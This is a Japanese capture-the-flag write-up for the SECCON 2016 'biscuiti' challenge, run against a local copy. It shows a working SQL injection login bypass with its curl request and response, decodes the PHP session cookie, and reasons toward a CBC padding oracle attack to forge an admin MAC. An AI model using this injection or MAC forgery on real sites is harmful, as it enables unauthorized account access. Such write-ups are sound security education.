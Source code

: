 # biscuiti [Web, Crypto / 300pt]

## Problem
biscuiti

Can you login as admin?

[http://biscuiti.pwn.seccon.jp/](http://biscuiti.pwn.seccon.jp/)

[biscuiti.zip](https://github.com/AkashiSN/SECCON2016-Online-CTF/blob/master/Crypto/biscuiti/biscuiti.zip)

Note: You should estimate that exploits cost an hour.

## Answer

### 環境構築

[SECCON2016_online_CTF - GitHub](https://github.com/SECCON/SECCON2016_online_CTF/tree/master/Crypto/300_biscuiti)の

`build/README.md`にあるようにデプロイしてみる

```bash
cd build/deploy
vagrant up
sudo gem install itamae
itamae ssh --vagrant roles/main.rb
```

これで[http://localhost:10080](http://localhost:10080)で問題がホストされるようになった

### 問題を解く

![img](img.png)

問題ファイルの[index.php](https://github.com/AkashiSN/SECCON2016-Online-CTF/blob/master/Crypto/biscuiti/biscuiti/index.php)の認証部を見てみると


```sql
SELECT username, enc_password from user WHERE username='{$username}'
```

となっていて、SQLインジェクションができそう
ここに、

```sql
'UNION SELECT 'admin','adminadmin
```

を送り込んでやると

```sql
SELECT username, enc_password from user WHERE username=''UNION SELECT 'admin','adminadmin'
```

という文が完成して、

```plain
+-------+------------+
| admin | adminadmin |
+-------+------------+
```
というのが返ってくる。

```plain
$ curl -i -F "username='UNION SELECT 'admin','adminadmin" -F "password=" http://localhost:10080
HTTP/1.1 100 Continue

HTTP/1.1 200 OK
Date: Sat, 18 Nov 2017 05:04:29 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: JSESSION=YToyOntzOjQ6Im5hbWUiO3M6NToiYWRtaW4iO3M6NzoiaXNhZG1pbiI7Tjt9KSOL8reQbsVxc9b0b7idaQ%3D%3D
Vary: Accept-Encoding
Content-Length: 136
Content-Type: text/html; charset=UTF-8

<!doctype html>
<html>
<head><title>Login</title></head>
<body>
Hello admin
<div><a href="logout.php">Log out</a></div>
</body>
</html>
```

`admin`としてログインできる

`%3D`は`=`なので、

```plain
JSESSION=YToyOntzOjQ6Im5hbWUiO3M6NToiYWRtaW4iO3M6NzoiaXNhZG1pbiI7Tjt9KSOL8reQbsVxc9b0b7idaQ==
```

これはBase64っぽいしポストするデータが同じだったら何回アクセスしても変わらない値っぽい

```bash
$ echo -n "YToyOntzOjQ6Im5hbWUiO3M6NToiYWRtaW4iO3M6NzoiaXNhZG1pbiI7Tjt9KSOL8reQbsVxc9b0b7idaQ==" | base64 -d
a:2:{s:4:"name";s:5:"admin";s:7:"isadmin";N;})#����n�qs��o��i
```

`a:2:{s:4:"name";s:5:"admin";s:7:"isadmin";N;}`ここはセッション情報

[http://php.fnlist.com/php/unserialize](http://php.fnlist.com/php/unserialize)

ここで`unserialize`してみると

```php
array (
  'name' => 'admin',
  'isadmin' => NULL,
);
```

[index.php](https://github.com/AkashiSN/SECCON2016-Online-CTF/blob/master/Crypto/biscuiti/biscuiti/index.php)の一部

```php
if ($SESSION["isadmin"])
    include("../flag");
```

`isadmin`が`True`だったらよさそう

`)#����n�qs��o��i`これは

[index.php](https://github.com/AkashiSN/SECCON2016-Online-CTF/blob/master/Crypto/biscuiti/biscuiti/index.php)の一部

```php
define("ENC_KEY", "***censored***");
define("ENC_METHOD", "aes-128-cbc");
(省略)
function mac($input) {
    $iv = str_repeat("\0", 16);
    $c = openssl_encrypt($input, ENC_METHOD, ENC_KEY, OPENSSL_RAW_DATA, $iv);
    return substr($c, -16);
}

function save_session() {
    global $SESSION;
    $j = serialize($SESSION);
    $u = $j . mac($j);
    setcookie("JSESSION", base64_encode($u));
}
```

ここでの`mac`値は`serialize($SESSION)`を`aes-128-cbc`で暗号化しているが、`ENC_KEY`はわからない。

しかし、任意のユーザーでログイン可能なため平文と`mac`値の双方を手に入れることができる。

その状態から

```php
array (
  'name' => 'admin',
  'isadmin' => ture,
);
```

となる`mac`値を求めれば良さそう。

[CBC modeに対するPadding oracle attackをやってみる - ももいろテクノロジー](http://inaz2.hatenablog.com/entry/2015/12/23/000923)

> ブロック暗号モードのひとつであるCBC modeには、Padding oracle attackと呼ばれる攻撃手法が存在することが知られている。 これは、繰り返し復号を行うことができ、かつ復号の成否が観測可能なとき、バイトごとのブルートフォースにより暗号文が復元できるというものである。

どうやら`Padding oracle attack`が使えそう

